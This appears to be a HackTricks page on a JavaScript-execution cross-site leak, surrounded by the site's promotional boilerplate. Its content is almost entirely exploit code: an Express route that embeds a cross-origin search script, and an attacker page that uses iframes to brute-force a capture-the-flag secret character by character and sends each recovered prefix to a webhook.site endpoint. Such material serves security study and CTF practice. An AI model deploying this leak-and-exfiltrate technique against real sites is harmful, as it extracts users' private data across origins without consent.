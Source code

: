 # JavaScript Execution XS Leak

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

```javascript
// Code that will try ${guess} as flag (need rest of the server code
app.get('/guessing', function(req, res) {
    let guess = req.query.guess
    let page = `<html>
                <head>
                    <script>
                            function foo() {
                                // If not the flag this will be executed
                                window.parent.foo()
                            }
                        </script>
                    <script src="https://axol.space/search?query=${guess}&hint=foo()"></script>
                </head>
                <p>hello2</p>
                </html>`
    res.send(page)
});
```

Main page that generates iframes to the previous `/guessing` page to test each possibility

```html
<html>
<head>
    <script>
            let candidateIsGood = false;
            let candidate = ''
            let flag = 'bi0sctf{'
            let guessIndex = -1

            let flagChars = '_0123456789abcdefghijklmnopqrstuvwxyz}ABCDEFGHIJKLMNOPQRSTUVWXYZ'

            // this will get called from our iframe IF the candidate is WRONG
            function foo() {
                candidateIsGood = false
            }

            timerId = setInterval(() => {
                if (candidateIsGood) {
                    flag = candidate
                    guessIndex = -1
                    fetch('https://webhook.site/<yours-goes-here>?flag='+flag)
                }
                
                //Start with true and will be change to false if wrong
                candidateIsGood = true
                guessIndex++
                if (guessIndex >= flagChars.length) {
                    fetch('https://webhook.site/<yours-goes-here>')
                    return
                }
                let guess = flagChars[guessIndex]
                candidate = flag + guess
                let iframe = `<iframe src="/guessing?guess=${encodeURIComponent(candidate)}"></iframe>`
                console.log('iframe: ', iframe)
                hack.innerHTML = iframe
            }
            , 500);
        </script>
</head>
<p>hello</p>
<div id="hack">
</div>
</html>
```

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
